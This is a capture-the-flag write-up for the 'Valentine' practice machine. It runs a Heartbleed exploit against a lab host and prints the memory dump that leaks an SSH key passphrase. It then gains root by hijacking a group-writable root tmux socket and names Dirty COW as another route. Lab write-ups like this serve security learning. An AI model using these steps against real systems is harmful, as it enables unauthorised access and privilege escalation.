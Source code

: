 # Valentine

### Machine Info
![](screenshots/valentine.png)

#### Nmap
Nmap Port Scan:
![](screenshots/nmap.png)

Nmap Vulnerability Scan:
![](screenshots/nmap_vuln.png)


##### HTTP (Port 80)

Index page:
![](screenshots/index.png)

###### Gobuster
Gobuster to find out hidden page/directory:
![](screenshots/gobuster.png)


`/decode` and `/encode` pages:
![](screenshots/encode.png)

![](screenshots/decode.png)


`/dev`:
![](screenshots/dev.png)

From the `/dev/` directory, we can get 2 files:

`notes.txt`
![](screenshots/dev_notes.png)

`hype_key`
![](screenshots/dev_keys.png)

`hype_key` looks like `hex` encoded text. Let's decode it by using just online decoder:
![](screenshots/rsa_key.png)
The decoded message returns `PROTECTED RSA PRIVATE KEY` and I tried `john` but wasn't able to crack.


##### SSL HeartBleed

The Heartbleed Bug is a vulnerability in the OpenSSL cryptographic software library. This bug allows for reading memory of systems so anyone on the Internet can read and steal encrypted data and can eavesdrop on communication and just impersonate services and users.

HeartBleed Bug:
![](screenshots/heartbleed.png)

I found the exploit from exploit-db:
Exploit Code: []()https://www.exploit-db.com/exploits/32745

Execute and analyse result:
```
❯ python 32745.py 10.10.10.79                                            
Connecting...                                                            
Sending Client Hello...                                                  
Waiting for Server Hello...                                              
 ... received message: type = 22, ver = 0302, length = 66                
 ... received message: type = 22, ver = 0302, length = 885               
 ... received message: type = 22, ver = 0302, length = 331               
 ... received message: type = 22, ver = 0302, length = 4                 
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384             
Received heartbeat response:
------------------------ SIP ----------------------
00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D B2  mV0aGVoeXBlCg==.
0160: 45 A1 FB BE 88 E4 2C 42 42 7C D3 5A 83 90 F9 16  E.....,BB|.Z....
------------------------ SIP ----------------------
```
We can see some encoded text `$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` from result. It looks like `base64` encoded.

Decoding `$text`:
![](screenshots/passphrase.png)
This could be password or passphrase for rsa_key.

Let's just `SSH` to user `hype`:
![](screenshots/user_shell.png)


#### Privilege Escalation
First I just checked `sudo` but nothing so I just used `lse.sh` enumeration script. From the process result, I found interesting one:
![](screenshots/root_tmux.png)

And check what /.devs/dev_sess is:
![](screenshots/dev_sess.png)

I am in the group `hype` and group member can read and write which means we can jump on to the root process.

##### Exploit

```
hype@Valentine:~$ tmux -S /.devs/dev_sess
```
And we have a root shell:
![](screenshots/root_shell.png)

And you can get `root.txt` :)


##### Another Exploit method

The linux version of host `valentine` is `3.2.0-23-generic` which is vulnerable to `dirty cow` vulnerability.

Dirty Cow Exploit: []()https://www.exploit-db.com/exploits/40839
```
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
```
